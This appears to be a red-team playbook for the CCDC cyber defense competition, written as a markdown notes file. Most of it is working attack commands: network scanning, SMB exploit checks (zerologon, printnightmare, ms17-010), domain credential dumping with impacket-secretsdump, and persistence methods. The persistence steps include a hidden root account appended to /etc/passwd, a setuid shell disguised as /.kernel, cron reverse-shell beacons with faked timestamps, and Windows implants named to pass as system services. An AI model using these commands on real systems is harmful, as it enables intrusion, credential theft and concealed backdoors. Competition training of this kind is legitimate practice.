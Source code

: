## RedTeaming

**CCDC playbook**
- Make sure to have a sheet with all host/shell info, so if we lose a shell we know where we lost it
- Opening Salvo:
  - Quickly nmap scan for port 445, as this will almost always be our gateway in
  - `nmap -sV -O -T4 -min-hostgroup 96 -p 445 --open {IP_range}`
    - `-min-hostgroup` will divide the range up into 96 sup parts
  - Simultaneously run a scan for all port 22s (so we can use them when we find the default password)
    - `nmap -sV -O -T4 -min-hostgroup 96 -p 22 {IP_range}`
  - Additionally, one final `nmap -sn -T4 10.10.0.1/24 | grep -oE '([0-9]{1,3}\.){3}[0-9]{1,3}' | sort -u > ips.txt` to just figure out what hosts are online
  - Then pass alive hosts to autorecon with `sudo autorecon -t ips.txt -p 21,22,23,25,53,80,110,111,135,139,143,389,443,445,465,636,873,993,995,1025-1030,1080,1433,1521,1723,3306,3389,5432,5900,5985,6379,6667,8000,8080,8443,8888 -o autorecon_results --max-scans 100`
  - Then, run `while read -r line; do nxc smb $line -u '' -p '' -M zerologon -M printnightmare -M smbghost -M ms17-010; done < ips.txt` against all IPs
    - If we get a hit, run `zerologon.py` and then `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
      - e.g. `impacket-secretsdump -just-dc -no-pass 'corp.local/TEST-DC$@10.10.0.162'` (DC name is TEST-DC)

- **Persistence:**
  - Linux:
    - Add SSH keys
      - `mkdir /root/.ssh` and add key to `/root/.ssh/authorized_keys`
    - Modify `/etc/passwd` and `/etc/ssh/sshd_config`
      - `echo 'wwwdata:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash' >> /etc/passwd && chattr +i /etc/passwd && echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config && chattr +i /etc/ssh/sshd_config`
    - Use setuid binaries in weird locations (like a fake .kernel file):
      - `cp /bin/zsh /.kernel && chmod +sss /.kernel && touch -d "4 May 2024" /.kernel && chattr +i /.kernel`
      - `chattr` makes the file immutable (even as ROOT????)
        - We could also use this to add permanent persistence to /etc/passwd or /etc/shadow :o
    - Cron jobs:
      - Make innocuous cron jobs that are just shells sending out continuous connections
      - Upload shell to `/etc/cron.hourly/locate`, `touch -d "12 Jul 2024" /etc/cron.hourly/locate` to make it non-sus, and `chattr +i /etc/cron.hourly/locate`
        - Has to start with a `#!/bin/bash`
  - Windows:
    - When installing the exes, make sure to use `-o` with `iwr` or we'll just get the HTTP connection info lmfao
    - Scheduled tasks: `persistence install --method schtask --name "WindowsUpdate" --interval 600 --hidden`
    - Registry (run on login?): `persistence install --method registry --name svchost`
    - WMI: `persistence install --method wmi --name "WindowsWMIUpdate"`
    - Services: `sc create MySvc binPath= "C:\Path\to\implant.exe" start= auto`
    - Startup:
      - Add script to `C:\Windows\System32\GroupPolicy\User\Scripts\Logon\`
      - Runs on user login: `$path = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\evil.lnk"`
    - Backdooring domain:
      - `./mass_user_add_local.sh`
        - This adds a bunch of users to the domain
    - MSSQL server:
      - Theoretically, we could set up an additional MSSQL server in order
- Web apps:
  - Get in, change passwords, modify something about the web app or use it for access
